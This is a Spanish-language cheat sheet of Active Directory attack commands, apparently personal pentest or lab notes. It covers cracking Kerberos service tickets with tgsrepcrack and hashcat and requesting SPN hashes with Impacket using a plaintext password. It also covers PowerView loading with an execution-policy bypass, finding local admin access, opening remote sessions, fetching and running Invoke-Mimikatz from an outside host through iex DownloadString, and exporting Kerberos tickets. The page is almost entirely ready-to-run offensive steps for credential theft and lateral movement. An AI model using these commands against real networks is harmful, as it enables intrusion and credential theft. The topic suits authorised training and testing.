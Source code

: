 **Descifrar la contraseña del ticket de TGS especifico con Tgsrepcrack**
```powershell
python.exe .\kerberoast-Python3\tgsrepcrack.py .\10k-worst-pass.txt .\1-40a10000-student@ops~research.SECURITY.local~1434-RESEARCH.SECURITY.LOCAL.kirbi
```

**Hashcat Descifrar Contraseña**
```bash
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```
----
**Impacket ToolSet**
```powershell
impacket-GetUserSPNs domain.local/SVC_TGS

impacket-GetUserSPNs domain.local/SVC_TGS:GPPMyPasswordSecret202$ -request
```
### LATERAL MOVEMENT
#### [[PASS THE HASH]]
#### [[PASS THE TICKET]]
**Importar Modulo Powerview**
```powershell
# Dar permisos de bypass
powershell -ep bypass

# Importamos el modulo
. .\PowerView.ps1
```

**Comprobar los permisos de administración del usuario actual en otros dominios**
```powershell
Find-LocalAdminAccess
```

**Abrir una Powershell Session en el sistema remoto al cual tenemos acceso como Admin**
```powershell
# Abrir sesion
EnterPSSession seclogs.research.SECURITY.local

# Analizar permisos (debemos de tener todos los permisos)
whoami
whoami /priv
```

**Pasamos herramientas Mimikatz de un sistema a otro mediante un servidor de subida de archivos**
```powershell
cd \
iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-Mimikatz.ps1')
```

**Extracción de todos los tickets de Kerberos vinculados a nuestra sesión**
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
